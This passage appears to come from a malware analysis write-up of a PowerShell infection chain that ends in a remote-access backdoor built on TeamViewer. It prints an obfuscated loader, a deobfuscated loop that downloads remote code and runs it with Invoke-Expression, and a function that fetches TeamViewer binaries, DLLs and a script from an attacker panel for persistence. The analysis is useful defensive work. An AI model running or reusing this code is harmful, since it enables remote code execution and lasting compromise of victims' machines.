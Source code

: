 ```
I>C;B;0>c;n}k}g>e>w}o;g;I>C;A>g>I>C;A>g}I>C;R>y;Z}X>N>1}b>H}Q>9}J>H;M}u;R;G>9>3}b}m}x>v>Y}W>R}T}d}H}J}p}b}m}c}o>J>H}V}y;b;C;k;K}I>C>A>g>I;H;0;K>I;C}A}g}I;G}N}h;d>G}N>o}I>H;s;K;I>C;A}g;I}C;A;g>I>C;B>T}d}G>F;y}d}C}1}T;b;G}V}l;c}C}A;t}c}y;A}1;C;i>A>g}I;C;A;g;I>C>A}g}Y;2}9>u>d}G;l;u}d;W;U}K>I}C>A}g;I>H>0}K}I;C>A;g;I>E>l}u;d;m;9>r>Z;S}1;F>e}H;B;y}Z}X;N>z>a;W}9>u>I>C;R;y>Z>X;N;1}b}H;Q}K}I>C;A}g;I;F}N}0}Y>X;J;0>L>V>N}s}Z}W}V>w}I}C;1>z>I}D;U;K>f;Q}o;=>'.replace('}','').replace(';','').replace('>',''))))
```

Deobfuscated script:
   - Attempts to download malicious code from a URL.
   - If successful, runs the code using IEX and restarts the script.
   - If unsuccessful, pauses for 5 seconds and restarts the script.

```
$result=$s.DownloadString($url)
}
catch {
    Start-Sleep -s 5
    continue
}
Invoke-Expression $result
Start-Sleep -s 5
}
```

6. After that infected machine sends an `HTTP GET` request every 5 seconds to the malicious URL, but the server responds with a `404 Not Found` code.

   ![2025-02-20 14_54_59-Window](https://github.com/user-attachments/assets/86beebe7-d2ea-4d4d-bc3d-edf6a54ae76c)

7. After 1 minute, the HTTP server responds with another code malicious. The system executes the code, and the attacker establishes persistence on the infected machine using a Remote Access Trojan (RAT) or backdoor:
   
   - Download files `TeamViewer.exe` `Teamviewer_Resource_fr.dll` `TV.dll` `pas.ps1` from `<panelIP>` to the created folder `C:\ProgramData\huo`.
   - Saves the path to `TeamViewer.exe` in a variable.
   - Creates a shortcut for `TeamViewer.exe`.
   - Send logs to the malicious server

```
function Download-Files($panelIP, $files, $filesDir){
    $web = New-Object System.Net.WebClient
    
    try {
        if(!(Test-Path $filesDir)) {
            New-Item $filesDir -ItemType Directory | Out-Null
        }
    } catch {
        return @{'status' = 'error'; 'message' = 'error while creating startup directory'}
    }
    
    foreach($file in $files) {
        try {
            $link = $file.link
            $fileName = $file.name
            $filePath = "$filesDir\$($file.name)"
            $web.DownloadFile($link, $filePath)
            if($fileName -eq $startupFile){
                $exePath = $startupFile
            }
        } catch {
            return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"}
        }
    }
```